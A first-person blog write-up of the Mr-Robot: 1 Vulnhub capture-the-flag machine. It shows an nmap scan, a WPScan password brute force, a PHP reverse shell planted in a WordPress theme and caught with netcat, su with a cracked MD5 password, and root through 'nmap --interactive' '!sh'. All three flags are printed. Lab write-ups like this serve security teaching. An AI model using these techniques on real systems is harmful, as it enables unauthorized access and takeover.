 ```yaml
---
layout: post
title: Mr. Robot Vulnhub CTF
---
```


Mr-Robot: 1 is a CTF vulnerable machine hosted on Vulnhub developed by [Jason](https://www.vulnhub.com/author/jason,292/)
The image can be downloaded [here.](https://www.vulnhub.com/#modal151download)

After firing up this machine I found the I.P. it pulled and started my investigation. I found the I.P. with an app for iOS devices called Fing but there are tons of other ways to do this.

After locating the machine I ran an Nmap scan to see which ports were open and got the following

```
$ nmap -T5 192.168.1.168

Starting Nmap 7.12 ( https://nmap.org ) at 2016-06-30 17:42 EDT
Nmap scan report for 192.168.1.168
Host is up (0.0015s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 15.96 seconds

```

Goodie it looks like we have a webserver. After browsing to the site you will find a very nicely done webpage devoted
to Mr.Robot, or as some may know him Elliot, that you can devulge a lot of time into but thats not where we want to focus. The first thing you should do when looking at a website
is always look at the robots.txt file and see what you're not supposed to see. If you do that on this machine you are given a webpage that has two
pages, both of which we are going to visit.

First lets take a look at fsocity.dic, judging from the name this is probably a dictionary file so lets go ahead and save this file for later use(?)

```
wget 192.168.1.168/fsocity.dic

```

Note: Your I.P. will probably be different.

After that lets look at the much more promising page key-1-of-3.txt. Which believe it or not is the first of 3 keys we need to find. Browsing to that location
we get **073403c8a58a1f80d943455fb30724b9**. Now that we have our first key where do we go from here?

Next I decided to fire up DirBuster to take a look around and see what other directories there were and maybe to see if we could figure out what this site was running on.

After firing up DirBuster I was able to figure out this was a Wordpress install and that there was a login page located at /wp-login.php.
The great/horrible thing about Wordpress is that it tells you when you have a correct username and when you entered a username that does
not exist. So after trying the default user and admin (both of which do not exist) I got creative and tried MrRobot which also did not work
but I remembered that the main characters name was elliot so why not give that a go, and what do you know that is a user in the database.
At this point i fired up WPScan and attempted to brute force the user elliot with the dictionary given earlier.

```
$ ruby wpscan.rb -u 192.168.1.168 --threads 20 --wordlist ~/Documents/Projects/CTF/CTF_Events/Mr-Robot-1/fsocity.dic --username elliot
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.1
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.168/
[+] Started: Sat Jul  2 00:53:46 2016

[+] robots.txt available under: 'http://192.168.1.168/robots.txt'
[!] The WordPress 'http://192.168.1.168/readme.html' file exists exposing a version number
[+] Interesting header: SERVER: Apache
[+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN
[+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523
[+] XML-RPC Interface available under: http://192.168.1.168/xmlrpc.php

[+] WordPress version 4.3.5 (Released on 2016-06-21) identified from rss generator, rdf generator, atom generator, links opml

[+] Enumerating plugins from passive detection ...
[+] No plugins found
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : elliot Password : ER28-0652

  Brute Forcing 'elliot' Time: 08:28:20 <============== > (858145 / 858161) 99.99%  ETA: 00:00:01
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Sat Jul  2 09:22:07 2016
[+] Requests Done: 858195
[+] Memory used: 14.832 MB
[+] Elapsed time: 08:28:21
```


I ended with these results. I let it run over night or else you probably could have upped the threads to get this done faster.

First glance it looks like elliot is most likely an admin of this blog which is great news for us. After browsing to appearance and
themes I decided to edit the archive.php page in hopes of adding a reverse php shell.
After going to this [page](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and
grabbing the php reverse shell hosted there I opened up the nc listener like the post says too and went to the archive page.

After doing this a reverse shell opened up in my terminal

```
$ nc -v -n -l -p 1234
Connection from 192.168.1.168:42897
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC
2015 x86_64 x86_64 x86_64 GNU/Linux
 14:41:38 up  9:54,  0 users,  load average: 1.00, 1.01, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$

```

After getting this shell I decided to checkout the home folder. After arriving here I saw the key-2-of-2.txt file and got very excited! However,
after trying to cat it I realized I did not have permission to read it. I did notice there was a md5 password file for user robot (whos
home directory we were in). After catting this file I decided to go to [MD5cracker](http://www.md5cracker.org) and have them crack it. Luckily this
only took seconds and I got the password of

```
abcdefghijklmnopqrstuvwxyz

```
So at this point I tried to su robot and kept getting a not in terminal error. I figured this had something to do with TTY so I did a quick
google search that led me to another article on pentestmonkey with a python command to open up a terminal. Below is going to be the log of
everything I did to get key to after gaining access to the machine besides the cracking of the md5 hash since that was not done in the terminal

```
$ nc -lvnp 1234
Connection from 192.168.1.168:42903
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
14:57:45 up 10:10,  0 users,  load average: 1.10, 1.06, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ cd /home/robot
cd /home/robot
robot@linux:~$ ls
ls
key-2-of-3.txtpassword.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$

```

After searching around the box a bit and looking at the SUID binaries I remembered an old flaw with Nmap that allowed a user to execute commands as
root in interactive mode. After launching the interactive mode you can enter !sh to gain a shell. At this point I navigated to the root directory
catted the key-3-of-3.txt file and got the final key. Below will be a log of everything I did after getting the second key.

```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# cd /root/
cd /root/
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
#

```

That just about wraps up this Vulnhub image. Hopefully everyone enjoys my first writeup for Vulnhub. I am still fairly new at CTFs and boot2root
machines but I plan on doing a lot more of these and to continue writing writeups! If anyone has any suggestions on
what they would like done differently for these writeups please let me know. Thanks everyone for reading and if your interested in some security
content check out my twitter or the rest of my blog.
